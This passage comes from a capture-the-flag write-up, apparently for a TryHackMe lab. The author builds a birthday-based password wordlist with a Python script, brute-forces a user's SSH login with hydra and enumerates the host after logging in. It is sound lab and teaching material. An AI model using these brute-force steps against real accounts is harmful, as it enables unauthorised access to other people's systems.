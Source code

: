 ```
$ ls -lah /home/roberto/importante.txt
-rw-rw-r-- 1 roberto roberto 246 Jul 27  2020 /home/roberto/importante.txt
```

As you can see, both of them are created at `07/27/2020`. So `jenny` birthday is at around `08/xx/1994`.

**Let's write a python script to create a wordlist:**
```py
#!/usr/bin/env python3

def main():
    for day in range(1, 32):
        for month in range(7, 9):
            brithday = f'{month:02d}/{day:02d}/1994'

            with open('wordlist_brithday.txt', 'a') as fd:
                fd.write(f'{brithday}\n')



if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# python3 create_wordlist.py

┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# head -n 5 wordlist_brithday.txt 
07/01/1994
08/01/1994
07/02/1994
08/02/1994
07/03/1994
```

**Then use `hydra` to brute force user `jenny` SSH password:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# hydra -l 'jenny' -P wordlist_brithday.txt ssh://$RHOSTS
[...]
[22][ssh] host: 10.10.94.193   login: jenny   password: {Redacted}
```

Found it!

**Let's SSH into user `jenny`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# ssh jenny@$RHOSTS      
jenny@10.10.94.193's password: 
[...]
$ whoami;hostname;id;ip a
jenny
wwbuddy
uid=1002(jenny) gid=1002(jenny) groups=1002(jenny)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:be:79:84:16:8b brd ff:ff:ff:ff:ff:ff
    inet 10.10.94.193/16 brd 10.10.255.255 scope global dynamic eth0
```